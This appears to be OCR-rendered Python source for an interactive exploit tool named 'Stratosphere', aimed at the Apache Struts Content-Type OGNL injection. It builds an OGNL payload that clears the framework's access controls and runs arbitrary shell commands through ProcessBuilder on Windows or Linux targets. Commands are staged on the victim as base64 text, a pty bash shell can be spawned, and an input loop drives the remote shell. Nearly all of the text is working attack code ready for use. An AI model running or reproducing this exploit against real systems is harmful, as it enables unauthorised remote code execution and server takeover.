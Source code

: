         def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
            payload = "%{(#_='multipart/form-data')."
            payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
            payload += "(#_memberAccess?"
            payload += "(#_memberAccess=#dm):"
            payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
            payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
            payload += "(#ognlUtil.getExcludedPackageNames().clear())."
            payload += "(#ognlUtil.getExcludedClasses().clear())."
            payload += "(#context.setMemberAccess(#dm))))."
            payload += f"(#cmd='{cmd}')."
            payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
            payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
            payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
            payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
            payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
            payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
            payload += "(#ros.flush())}"
    
            if proxy:
                proxies = self.proxies
            else:
                proxies = {}
    
            headers = {'User=Agent': 'Mozilla/5.0', 'Content-Type': payload}
            try:
                r = requests.get(self.url, headers=headers, proxies=proxies, timeout=timeout)
                return r.text
            except:
                pass
    
        def WriteCmd(self, cmd):
            b64cmd = base64.b64encode(f'{cmd.rstrip()}\n'.encode('utf-8')).decode('utf-8')
            stage_cmd = f'echo {b64cmd} | base64 -d > {self.stdin}'
            self.RunRawCmd(stage_cmd)
            time.sleep(self.interval * 1.1)
    
        def UpgradeShell(self):
            # upgrade shell
            UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
            self.WriteCmd(UpgradeShell)
    
    prompt = "stratosphere> "
    S = Stratosphere()
    while True:
        cmd = input(prompt)
        if cmd == "upgrade":
            prompt = ""
            S.UpgradeShell()
        else:
            S.WriteCmd(cmd)
    